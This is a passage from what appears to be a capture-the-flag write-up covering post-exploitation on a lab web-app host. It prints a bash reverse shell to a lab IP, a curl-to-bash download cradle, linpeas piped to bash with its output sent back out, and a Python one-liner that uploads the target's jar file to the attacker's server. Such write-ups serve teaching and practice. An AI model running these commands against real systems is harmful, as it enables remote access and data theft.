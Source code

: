 Since this shell is likely very fragile lets upgrade it:

Start the listener ([found on this blog post](https://medium.com/@Thigh_GoD/how-to-automatically-upgrade-a-dumb-reverse-shell-6a4cb5c44997))

```bash
stty raw -echo; stty size && rcat l -ie "script -qc /bin/bash /dev/null" 9002 && reset
```

running the payload directly in the existing shell seems to break it. We'll need to cradle it:

```bash
$ cat "/bin/bash -i >& /dev/tcp/10.10.14.30/9002 0>&1" > sh
$ python -m http.server
```

Then download it and run using the existing shell we have:

```bash
$ curl 10.10.14.30:8000/sh | /bin/bash
```

And we get a nice upgraded shell!

Right off the bat we can see a jar file and guessing from the filename, username, and directory we can assume it's the source of the web app we've been dealing with. Never the less lets run linpeas:

```bash
$ py -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

start a listener to capture linpeas output:

```bash
$ nc -lp 9002 | tee recon/linpeaoutput
```

and fire off linpeas

```bash
$ curl 10.10.14.30:8000/p | bash &> /dev/tcp/10.10.14.30/9001 &
```

lets also upload the jar file so we can have a closer look:

```bash
$ which python3
/usr/bin/python3
$ python3 -c 'import requests;requests.post("http://10.10.14.30:8000/upload",files={"files":open("cloudhosting-0.0.1.jar","rb")})'
```

Running [Floss](https://github.com/mandiant/flare-flosshttps://github.com/mandiant/flare-floss) doesn't seem to work so lets get right to decompilation:

```bash
$ floss cloudhosting-0.0.1.jar
INFO: floss: extracting static strings...
ERROR: floss: cannot deobfuscate strings from files larger than 0x1000000 bytes
$ floss --only static -- cloudhosting-0.0.1.jar > recon/flossStrings
```
